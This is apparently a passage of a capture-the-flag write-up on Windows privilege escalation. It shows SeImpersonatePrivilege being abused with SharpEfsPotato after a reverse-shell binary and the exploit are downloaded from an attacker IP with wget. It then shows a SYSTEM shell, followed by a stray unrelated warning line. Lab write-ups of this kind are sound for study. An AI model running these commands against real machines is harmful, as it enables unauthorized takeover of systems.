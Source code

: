 ```
PS C:\Windows\system32> whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

We have `SeImpersonatePrivilege` Enabled. Since this is a Windows Server 2019. Most of the known Potatos will not work.

But likely, there is new potato that could exploit SEimpersonatePrivilege using `EfsRpc`

> https://github.com/bugch3ck/SharpEfsPotato

We compile it with Visual Studio and upload it to the remote machine

```
PS C:\Windows\System32\spool\drivers\color> wget 10.10.14.57/xc_10.10.14.57_443.exe -o xc_10.10.14.57_443.exe

PS C:\Windows\System32\spool\drivers\color> wget 10.10.14.57/SharpEfsPotato.exe -o SharpEfsPotato.exe
```

And then execute my reverse shell

```
PS C:\Windows\System32\spool\drivers\color> .\SharpEfsPotato.exe -p C:\Windows\System32\spool\drivers\color\xc_10.10.14.57_443.exe
SharpEfsPotato by @bugch3ck
  Local privilege escalation from SeImpersonatePrivilege using EfsRpc.

  Built from SweetPotato by @_EthicalChaos_ and SharpSystemTriggers/SharpEfsTrigger by @cube0x0.

[+] Triggering name pipe access on evil PIPE \\localhost/pipe/d112edc0-75de-4d57-8696-f7b9847761a6/\d112edc0-75de-4d57-8696-f7b9847761a6\d112edc0-75de-4d57-8696-f7b9847761a6
df1941c5-fe89-4e79-bf10-463657acf44d@ncalrpc:
[x]RpcBindingSetAuthInfo failed with status 0x6d3
[+] Server connected to our evil RPC pipe
[+] Duplicated impersonation token ready for process creation
[+] Intercepted and authenticated successfully, launching program
[+] Process created, enjoy!
```


[WARNING]: provided hosts list is empty, only localhost is available. Note that
[xc: C:\Windows\system32]: whoami
[xc: C:\Windows\system32]: hostname